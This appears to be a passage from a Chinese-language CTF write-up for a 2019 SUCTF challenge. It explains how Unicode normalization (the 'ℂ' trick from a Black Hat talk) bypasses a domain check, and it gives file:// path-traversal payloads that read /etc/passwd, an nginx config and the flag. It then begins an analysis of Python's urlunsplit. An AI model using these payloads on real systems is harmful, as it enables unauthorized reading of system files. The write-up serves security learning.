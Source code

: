 ![](/home/cookie/Pictures/blogs/2019SUCTF[复现]/5.png)

[2019black-hat-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

所以我们通过特殊的编码绕过对域名的检验,编码来自于[https://en.wiktionary.org/wiki/Appendix:Unicode/Letterlike_Symbols](https://en.wiktionary.org/wiki/Appendix:Unicode/Letterlike_Symbols)

```
payload:
file://suctf.cℂ/../../../etc/passwd

提示中的nginx
payload2:
file://suctf.cℂ/../../../usr/local/nginx/conf/nginx.conf

payload3:
file://suctf.cℂ/usr/fffffflag
```



**分享另外一个解法，比预期解更像预期解的非预期解**

在题目给的源码中

```python
parts = list(urlsplit(url))
...
finalUrl = urlunsplit(parts).split(' ')[0]
```

这两个操作，实际上存在一个漏洞，可能被利用，我觉得可以学习一下

```python
from urllib.parse import urlsplit,urlunsplit,unquote
from urllib import parse

url = "http://www.baidu.com/flag.php"
parts = parse.urlsplit(url)
print(parts)
```

结果如下：

```python
SplitResult(scheme='http', netloc='www.baidu.com', path='/flag.php', query='', fragment='')
```

然而在`urlunsplit()`中有个缺陷，看一个这个函数的源码

```python
def urlunsplit(components):
    """Combine the elements of a tuple as returned by urlsplit() into a
    complete URL as a string. The data argument can be any five-item iterable.
    This may result in a slightly different, but equivalent URL, if the URL that
    was parsed originally had unnecessary delimiters (for example, a ? with an
    empty query; the RFC states that these are equivalent)."""
    scheme, netloc, url, query, fragment, _coerce_result = (
                                          _coerce_args(*components))
    if netloc or (scheme and scheme in uses_netloc and url[:2] != '//'):
        if url and url[:1] != '/': url = '/' + url
        url = '//' + (netloc or '') + url
    if scheme:
        url = scheme + ':' + url
    if query:
        url = url + '?' + query
    if fragment:
        url = url + '#' + fragment
    return _coerce_result(url)
```
